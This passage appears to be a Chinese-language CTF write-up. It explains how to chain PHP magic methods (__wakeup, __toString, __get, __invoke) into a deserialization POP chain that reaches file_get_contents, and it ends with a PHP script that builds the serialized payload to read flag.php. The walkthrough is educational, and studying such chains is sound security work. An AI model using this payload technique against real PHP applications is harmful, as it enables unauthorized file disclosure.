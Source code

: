 我标注了target的两处便是最终要利用的函数，start的一处就是我们可控输入点。

先逆推考察Target 1

如何到达最后的`file_get_content(可控)`？需要到达`file_get(可控)`，需要`__invoke()且$var可控`。如何调用invoke？需要把对象当做函数调用。于是我们就要寻找办法做到这一点：

```
... 把一个Read()的对象作为函数调用且可控$var -> __invoke() 且可控$var -> file_get(可控) -> file_get_content(可控)【Finish】
```

哪里可以函数调用对象？当然是`Test->__get()`。`__get()`可用于从不存在的属性读取数据，那么哪里可以调用get？不太好找了。我们先放一放

再从start顺推考察。`unserialize()`会调用`__wakeup`方法，且类一切参数可控。而`Show->__wakeup()`中的preg_match会调用类的`toString`，Show类中恰有toString。跟进方法，发现它想要获得类的属性，那就有可能出现属性不存在的问题。这个过程如下

```
【Start】->unserialize(对象属性全可控) -> Show的wakeup()且source可控 -> Show的source的toString且source可控 -> Show的source的str['str']的__get()方法 -> ...
```

至此，我们发现前后已经连接上了。

```
【Start】->unserialize() -> Show的wakeup() -> Show的source的toString -> Show的source的str['str']的__get() -> 函数调用了Read()的一个对象 ->Read的__invoke()  -> file_get() -> file_get_content()【Finish】
```

那么就可以构造POP链：

```php
<?php 

class Show{
	public $source;
	public $str;
}

class Test{
	public $p;
}

class Read{
	public $var = "flag.php";
}

$s = new Show();
$t = new Test();
$r = new Read();

$t->p = $r;
$s->str["str"] = $t;
$s->source = $s;
var_dump(serialize($s));

 ?>
```
